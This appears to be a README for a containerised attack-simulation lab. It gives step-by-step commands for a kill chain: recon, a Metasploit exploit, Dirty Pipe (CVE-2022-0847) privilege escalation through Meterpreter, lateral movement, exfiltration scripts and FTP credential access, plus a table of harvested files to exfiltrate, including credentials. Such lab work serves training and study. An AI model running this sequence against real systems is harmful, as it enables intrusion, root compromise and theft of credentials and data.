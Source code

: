 # Recon
```bash
#Reconnaissance
#copy recon.sh into k1
docker cp /vagrant/Attacks/Recon/recon.sh k1:/
docker exec k1 chmod +x recon.sh
#Run the script
docker exec k1 ./recon.sh
```

# Execution
```bash
# Execution
cd /vagrant/Attacks/Execution
# copy exploit to metasploit framework directory
docker cp 50531.rb k1:/usr/share/metasploit-framework/modules/exploits/linux/
# run msfconsole with the resource script to auto exploit with the set configurations
docker exec -it k1 msfconsole -r MsfAutoExploit.rc
```

# Privilege Escalation
```bash
# All commands shall be executed inside the Meterpreter session established in Execution phase
# Upload dirtypipe.sh and CVE-2022-0847.c to /tmp directory
upload dirtypipe.sh /tmp
upload CVE-2022-0847.c /tmp

# Drop into shell
shell
# Set execute permission 
chmod +x /tmp/dirtypipe.sh
# Execute dirtypipe.sh to get root shell
cd /tmp && ./dirtypipe.sh
```

# Discovery
```bash
cd /vagrant/Attacks/Discovery
# Setup discovery in vagrant host
./discovery_setup.sh

# During this stage, attacker should have root in S1
docker exec -it s1 bash
./discovery.sh # Run this in s1 root shell --> script is located in root / dir
```

# Lateral Movement
```bash
cd /vagrant/Attacks/Lateral_Movement
./lateral_movement_setup.sh

# During this stage, attacker should have root in S1
docker exec -it s1 bash
./lateral_movement.sh # Run this in s1 root shell --> script is located in root / dir
```

# Exfiltration
```bash
cd /vagrant/Attacks/Exfiltration
./exfiltration_setup.sh

# During this stage, attacker should have root in S1
./exfiltration_s1.sh # Run this in s1 root shell --> script is located in the / directory
./exfiltration_k1.sh # Run this at k1 root directory
```

# Credential Access
```bash
On Kali Machine
cd /
# Access S2 FTP Server with new found credentials from suiteCRM
python3 Auto_FTP.py <target> <port> <username> <password>
```

Files to be exfiltrated in S1:

| s/n | Filename            | Machine |
| --- | ------------------- | ------- |
| 1   | /networkenum.txt    | s1      |
| 2   | /ips_sorted.txt     | s1      |
| 3   | /traceroute.txt     | s1      |
| 4   | /internal_host_scan | s1      |
| 5   | /users.txt          | s1      |
| 6   | /db_users.txt       | s1      |
| 7   | /user_creds.txt     | s1      |
| 8   | /ps_aux.txt         | s1      |
| 9   | /local_groups.txt   | s1      |
| 10  | /sysenum.txt        | s1      | 
